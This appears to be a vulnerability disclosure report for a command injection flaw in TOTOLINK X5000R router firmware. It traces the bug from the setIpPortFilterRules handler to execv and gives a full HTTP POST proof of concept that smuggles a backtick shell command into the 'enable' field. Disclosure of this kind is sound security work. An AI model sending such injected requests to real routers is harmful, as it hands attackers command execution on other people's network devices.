

### Overview:

Affected Device: totolink X5000R

Affected Firmware Version: V9.1.0cu.2300_B20230112

Vulnerability: command injection, leading to arbitrary command execution

Firmware Download Link: [https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip](https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip)

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

### Vulnerability:

This vulnerability is a Remote Code Execution (RCE) that allows attackers to make arbitrary command execution

The vulnerability is located in the function `sub_41321C` within `cstecgi.cgi`, also known as `setIpPortFilterRules`.

The function uses `Uci_Set_Str`, which passes the parameter `enable` as the fourth argument. In `libcscommon.so`,it can be observed that `Uci_Set_Str` calls `snprintf` to format our `param_4` into the string `uci -c %s set ....` and passes the string to the `CsteSystem` function,which will eventually be called by `execv`.

therefore , by controlling parameter `enable` , we can finally make an arbitrary command execution

### POC:
To reproduce the vulnerability, you can use the actual device or simulate it using qemu. The following POC can be used:

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"addEffect":"0","enable":"`id > /1.txt;`","topicurl":"setIpPortFilterRules","token":"00000000000000000000000000000000"}
~~~

(tips:if you use qemu emulation ur likely to patch a few places to work normally)
### Impact:

though there is an error msg , the command has indeed been executed

